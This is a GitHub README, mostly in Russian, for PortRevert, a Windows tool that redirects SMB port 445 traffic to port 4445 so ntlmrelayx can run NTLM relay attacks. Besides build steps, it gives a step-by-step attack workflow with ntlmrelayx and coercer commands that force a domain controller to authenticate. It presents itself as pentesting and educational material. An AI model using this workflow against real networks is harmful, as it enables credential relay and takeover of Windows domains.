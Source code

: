 # PortRevert

SMB port redirector for NTLM relay attacks without stopping the LanmanServer service.

## 🎯 Описание

Этот инструмент перехватывает SMB трафик на порт 445 и перенаправляет его на порт 4445, позволяя использовать ntlmrelayx без остановки службы LanmanServer (которая слушает порт 445).

## 🚀 Возможности

- Перехват всего TCP трафика на порт 445
- Перенаправление на порт 4445 для ntlmrelayx
- Автоматическая обработка двунаправленного трафика (запросы/ответы)
- Корректная очистка драйвера при завершении
- Поддержка как x86, так и x64 архитектур

## 📋 Требования

- Windows 8/10/11
- Права администратора
- Visual Studio (для сборки)
- WinDivert 2.2+

## 🛠️ Сборка

1. Установите Visual Studio
2. Скачайте WinDivert 2.2+ с [официального сайта](https://reqrypt.org/windivert.html)
3. Откройте проект в Visual Studio
4. Настройте пути к библиотекам WinDivert
5. Соберите проект (Release x64)

## 🚀 Использование

### Запуск перенаправления:
```cmd
PortRevert.exe
```
### Выгрузка драйвера:
```cmd
PortRevert.exe uninstall
```
## 🎯 Пример использования для NTLM relay
### 1. Запустите PortRevert от имени администратора:
```cmd
PortRevert.exe
```
### 2.  Запустите ntlmrelayx на порту 4445:
```cmd
ntlmrelayx.exe -smb-port 4445 -smb2support -debug
```
### 3. Принудите жертву к аутентификации любым способом, например с помощью coercer:
```zsh
coercer coerce -d cs.org -t dc1 -u test -p 'Password123!' -l pc3 --always-continue

(PortRevert должен быть запущен на хосте-слушателе, в данном случае - pc3)
```
## 🔄 Как это работает
```
Жертва -> Порт 445 
    ↓ (перехват PortRedirector)
Жертва -> Порт 4445 -> ntlmrelayx
    ↓ (ответы)
ntlmrelayx -> Порт 4445 
    ↓ (перенаправление обратно)
ntlmrelayx -> Порт 445 -> Жертва
```

## ⚠️ Важные замечания
- Требуются права администратора
- Не останавливает службу LanmanServer
- Работает с внешним и локальным SMB трафиком
- Файлы WinDivert.sys и WinDivert.dll должны находиться рядом с exe
## 🧹 Очистка

После использования запустите:
```cmd
PortRevert.exe uninstall
```
Это остановит и удалит драйвер WinDivert из системы.
## 📄 Лицензия

Этот проект распространяется по лицензии MIT.
## 🙏 Благодарности

- [WinDivert](https://reqrypt.org/windivert.html) - за отличную библиотеку перехвата пакетов
- Сообществу пентеста за вдохновение
## 🔒 Дисклеймер

Этот инструмент предназначен только для образовательных целей и и всех тех, кто работает в области пентеста и этичного хакинга. Используйте ответственно!
